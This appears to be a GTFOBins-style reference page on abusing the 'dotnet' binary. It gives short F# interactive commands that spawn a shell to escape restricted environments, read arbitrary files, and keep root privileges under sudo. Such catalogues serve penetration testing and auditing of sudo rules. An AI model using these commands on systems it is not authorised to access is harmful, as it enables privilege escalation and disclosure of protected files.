 # GTFOBin: dotnet

## Shell

It can be used to break out from restricted environments by spawning an interactive system shell.

```
dotnet fsi
System.Diagnostics.Process.Start("/bin/sh").WaitForExit();;
```

## File read

It reads data from files, it may be used to do privileged reads or disclose files outside a restricted file system.

```
export LFILE=file_to_read
dotnet fsi
System.IO.File.ReadAllText(System.Environment.GetEnvironmentVariable("LFILE"));;
```

## Sudo

If the binary is allowed to run as superuser by `sudo`, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

```
sudo dotnet fsi
System.Diagnostics.Process.Start("/bin/sh").WaitForExit();;
```